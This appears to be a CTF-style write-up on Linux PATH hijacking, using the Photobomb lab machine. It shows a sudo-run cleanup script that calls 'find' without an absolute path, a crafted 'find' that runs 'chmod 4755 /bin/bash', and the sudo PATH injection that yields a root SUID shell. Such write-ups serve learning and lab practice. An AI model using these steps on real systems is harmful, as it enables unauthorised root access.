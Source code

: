 ```yaml
---
description: >-
  Linux PATH Hijacking 
title: Linux PATH Hijacking              # Add title here
date: 2023-02-04 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - PATH Hijacking]                     # Change Templates to Writeup
tags: [path hijacking, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

In order to exploit a PATH Hijacking we need to identify two things:
1) That the script can be executed on another user's context
2) There is a missing relative path on a command or on a library

## BASH
Let's analyze the following code:
```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
As we can see the "find" command is executed without relative path (such as /bin/cat or /usr/bin/truncate) so this gives us an entry point of a privesc.
In order to hijack a PATH environment we need to first craft a script called as the name of the vulnerable variable, in this case "find":

```bash
# Script that will give special permission to the bash binary to run as root without password.
wizard@photobomb:~$ cat find
#!/bin/bash
chmod 4755 /bin/bash
```
Then we need to hijack the environment "PATH" variable with the folder where this new crafted "find" script is located:
```bash
# Actual PATH environment variable:
wizard@photobomb:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# PATH that we need to inject on such $PATH variable:
wizard@photobomb:~$ echo $PWD
/home/wizard
```
The order where a script looks for a non-relative path command/library is from left to right on the $PATH variable, first place that will lookup is the /home/wizard path, to do so we can execute the following commands to add the PATH environment:
```bash
# Command to add /home/wizard to the PATH
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

It is of upmost importance to give execution permissions to the script, specially if it's being executed automatically:
```bash
wizard@photobomb:~$ chmod +x find
```

Examples:
[[Photobomb#^2939e0]]